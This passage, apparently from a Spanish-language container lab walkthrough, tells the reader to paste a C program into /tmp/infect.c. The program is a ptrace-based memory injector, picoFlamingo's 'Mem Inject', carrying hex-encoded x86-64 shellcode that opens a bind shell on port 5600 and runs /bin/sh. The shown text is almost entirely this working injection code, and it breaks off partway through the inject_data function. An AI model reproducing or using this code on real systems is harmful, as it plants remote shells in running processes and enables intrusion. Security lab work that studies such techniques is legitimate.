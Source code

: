 
### Recursos
[0x00sec](https://0x00sec.org/t/linux-infecting-running-processes/1097) esto es un `shellcode` de 32bits
[exploitDB](https://www.exploit-db.com/exploits/41128) esto es un `shellcode` de 64 bits

**Creamos dentro del contenedor un archivo `infect.c` en el directorio `/tmp` y con nano pegamos todo esto**:
```bash 
/*
  Mem Inject
  Copyright (c) 2016 picoFlamingo

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = 
  "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
```